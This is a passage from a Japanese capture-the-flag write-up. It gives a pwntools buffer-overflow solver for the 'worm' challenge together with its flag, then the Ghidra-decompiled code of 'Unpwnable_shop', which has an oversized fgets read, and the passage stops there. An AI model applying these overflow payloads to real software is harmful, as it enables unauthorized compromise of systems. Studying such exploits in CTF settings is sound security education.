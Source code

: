 よって、44byteの入力バッファの先に上書きしたいlocal_cの値があると分かりました。これを元にsolverを書きます。
```python
from pwn import *
file = './worm'
elf = context.binary = ELF(file)
#p = process(file)
p = remote("morrisworm.challs.pascalctf.it", 1337)

p.recvline()

payload = b'A'*44
payload += b'\x39\x05\x00\x00'
p.sendline(payload)

p.interactive()
```

フラグ: `pascalCTF{y0u_F0uNd-Th3_n3w_mi113n1um-bug???}`

# Unpwnable_shop
接続先とバイナリが貰えるので、またGhidraで解析します(変な変数は私がそう命名しただけ)
```c
undefined8 main(void)

{
  EVP_PKEY_CTX *ctx;
  int menu_select;
  char name[76] [76];
  int input_size;
  
  signal(0xe,handle_alarm);
  ctx = (EVP_PKEY_CTX *)0x1e;
  alarm(0x1e);
  init(ctx);
  input_size = 81;
  puts("Welcome to Unpwnable shop!\n***Now with support for abnormally long usernames!!1!***");
  puts(
      "To continue insert your name (don\'t even think about overwriting some return addresses, you ca n\'t lmao) :"
      );
  fgets(name[76],input_size,(FILE *)stdin);
  printf("Welcome to the shop %s\n\n\n",name[76]);
  printMenu();
  scanf(&%d,&menu_select);
  getchar();
  if (menu_select != 0) {
    puts("finding stuff to sell...");
    sleep(1);
    if (menu_select == 69) {
      puts("What was your name again? I forgot it.");
      fgets(name[76],input_size,(FILE *)stdin);
      puts("Ok, just hold on while i finish searching.");
      sleep(2);
    }
    puts("didn\'t find anything :(");
  }
  puts("Bye!");
  return 0;
}
```
実行したときには分かりませんでしたが、メニュー選択として0か1の入力を要求される時に、69を入力すると、二度目の名前入力を求められる処理へと遷移します。
